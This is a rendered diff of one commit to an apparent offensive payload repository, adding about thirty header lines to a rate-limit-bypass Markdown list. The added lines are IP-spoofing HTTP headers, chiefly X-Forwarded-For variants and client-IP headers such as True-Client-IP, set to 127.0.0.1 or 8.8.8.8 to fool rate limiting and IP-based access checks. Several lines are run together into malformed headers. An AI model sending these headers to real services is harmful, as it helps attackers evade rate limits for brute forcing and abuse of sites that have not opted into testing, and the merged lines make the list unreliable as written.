

Before and after one commit to Elv1n-K4r1moV/Payloads, a Markdown page: rate-limit-bypass.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/rate-limit-bypass.md
+++ b/rate-limit-bypass.md
@@ -208,4 +208,35 @@ X-Forwarded-Server: localhost
 X-Server-Name: 127.0.0.1
 X-Destination-Host: 127.0.0.1
 X-Destination-Host: localhost
+X-Forwarded-For: 127.0.0.1; 8.8.8.8
+X-Forwarded-For: 127.0.0.1|8.8.8.8
+X-Forwarded-For: 127.0.0.1 8.8.8.8
+X-Forwarded-For: 127.0.0.1,,8.8.8.8
+X-Forwarded-For: "127.0.0.1 8.8.8.8"
+X-Forwarded-For: [127.0.0.1,8.8.8.8]
+X-Forwarded-For: "127.0.0.1", 8.8.8.8
+X-Forwarded-For: [127.0.0.1]
+X-Forwarded-For: <127.0.0.1>
+X-Forwarded-For: (127.0.0.1)
+X-Forwarded-For: 127.0.0.1;127.0.0.2
+X-Forwarded-For: 127.0.0.1|8.8.8.8Forwarded-For-IP: 127.0.0.1
+Client-Ip-Addr: 127.0.0.1
+X-Real-ClientIP: 127.0.0.1
+X-Originating-Address: 127.0.0.1
+X-Proxy-IP-Address: 127.0.0.1X-WAP-Client-IP: 127.0.0.1
+X-Sucuri-ClientIP: 127.0.0.1
+X-NF-Client-IP: 127.0.0.1
+X-Cluster-Client-Address: 127.0.0.1
+X-Client-Address: 127.0.0.1
+X-Forwarded-Addr: 127.0.0.1
+X-Remote-Host: 127.0.0.1X-Original-IP: 127.0.0.1
+X-Forwarded-For-Original: 127.0.0.1
+X-Forwarded-Client-IP: 127.0.0.1
+X-Forwarded-User-IP: 127.0.0.1
+X-Real-Client-IP: 127.0.0.1
+X-Client-Real-IP: 127.0.0.1
+True-Client-IP: 127.0.0.1
+CF-True-Client-IP: 127.0.0.1
+Fastly-FF: 127.0.0.1
+X-Proxy-IP: 127.0.0.1
 ```
````
